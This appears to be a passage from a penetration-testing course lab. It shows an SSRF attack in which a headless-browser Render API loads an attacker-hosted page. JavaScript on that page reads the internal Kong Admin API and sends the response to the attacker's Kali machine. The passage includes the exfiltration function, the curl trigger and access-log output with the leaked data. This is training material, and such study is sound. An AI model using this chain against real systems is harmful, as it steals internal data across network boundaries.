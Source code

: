 Let's create a new HTML page with a JavaScript function. First, the function will make a request to the Kong Admin API. If CORS is enabled and permissive enough on the Admin API, our JavaScript function will be able to access the response body and send it back to the web server running on our Kali host. If this doesn't work, we will have to consult the documentation for the Kong Admin API and determine what we can do without CORS.

```
function exfiltrate() {
    fetch("http://172.16.16.2:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://192.168.118.3/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://192.168.118.3/error?" + encodeURIComponent(err));
    }); 
}
```

> Listing 46 - Sample JavaScript function to exfiltrate data

After placing the JavaScript function in an HTML file in our webroot, we will again call the Render API on the new HTML page.

```
kali@kali:~$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/exfil.html"}' http://apigateway:8000/files/import 
{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
```

> Listing 47 - Calling the Render API on exfil.html

When we check access.log, we should have the callback message.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log 
...
192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /exfil.html HTTP/1.1" 200 562 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /callback?%7B%22plugins%22%3A%7B%22enabled_in_cluster%22%3A%5B%22key-auth%22%5D%2C%22available_on_server%22%3A%7B%22grpc-web%22%3Atrue%2C%22correlation-id%22%3Atrue%2C%22...042%2C%22mem_cache_size%22%3A%22128m%22%2C%22pg_max_concurrent_queries%22%3A0%2C%22nginx_main_worker_p" 414 0 "-" "-"
```

> Listing 48 - Excerpt from access.log

Excellent. Our JavaScript function sent a request to the internal endpoint, then sent that response as a URL-encoded value back to our Kali host. The message might have been truncated, but our JavaScript function worked.

#### Exercise

Repeat the steps above.

#### Extra Mile
